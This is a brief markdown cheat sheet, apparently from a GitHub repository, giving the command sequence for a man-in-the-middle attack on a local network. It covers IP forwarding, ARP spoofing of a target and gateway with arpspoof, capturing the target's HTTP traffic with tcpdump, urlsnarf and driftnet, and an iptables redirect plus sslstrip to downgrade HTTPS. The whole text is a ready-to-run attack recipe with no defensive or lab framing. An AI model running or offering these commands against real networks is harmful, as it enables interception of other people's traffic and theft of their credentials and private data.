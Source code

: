 ### Forward IPV4 traffic
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
 
### Send fake ARP packages
```
arpspoof -i <interface> -t <rhost> -r <gatewayIp>
```

### Dump TCP traffic
```
tcpdump -i <interface> -A host <rhost> and port 80 > <rhost.txt>
```

### Extract urls from TCP traffic
```
urlsnarf -i <interface>
```

### Capture images
```
driftnet -i <interface>
```

#### downgrade HTTPS to HTTP - redirect requests from port 80 to 8080
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### -l = listen to port 8080
```
sslstrip -l 8080
```

